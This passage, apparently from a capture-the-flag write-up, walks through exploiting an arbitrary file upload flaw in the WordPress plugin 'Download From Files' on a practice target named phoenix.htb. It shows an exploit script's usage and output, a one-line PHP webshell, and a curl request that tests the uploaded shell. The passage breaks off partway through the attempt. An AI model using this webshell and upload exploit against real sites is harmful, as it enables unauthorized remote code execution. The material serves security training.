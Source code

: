 

The rest is a simple POST request with the file.

#### Run Script

The help menu gives the arguments to pass:



    oxdf@hacky$ python download_upload.py 
    Download From Files <= 1.48 - Arbitrary File Upload
    Author -> spacehen (www.github.com/spacehen)
    Usage: python3 exploit.py [target url] [php file]
    Ex: python3 exploit.py https://example.com ./shell.(php4/.md)



It also says to use a shell ending in `.php4` or `..md`. I'll grab a
simple webshell and save it as `cmd.php4`:



    <?php system($_REQUEST['cmd']); ?>



When I run `python download_upload.py https://phoenix.htb cmd.php4`, it
crashes out with all kinds of SSL/TLS errors. I'll add `verify=False` to
each of the `requests` calls to ignore the self-signed certificate. I'll
also add the following at the top just under the imports:



    import urllib3
    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)



This disable warnings line isn't necessary, but hides some annoying
errors.

When I run it, it works:



    oxdf@hacky$ python download_upload.py https://phoenix.htb cmd.php4 
    Download From Files <= 1.48 - Arbitrary File Upload
    Author -> spacehen (www.github.com/spacehen)
    Uploading Shell...
    Shell Uploaded!
    https://phoenix.htb/wp-admin/cmd.php4



The webshell doesn't execute:



    oxdf@hacky$ curl -k https://phoenix.htb/wp-admin/cmd.php4?cmd=id
    <?php system($_REQUEST['cmd']); ?>



The server is not processing `.php4` files as PHP. I'll rename the shell
to `..md` and try again:
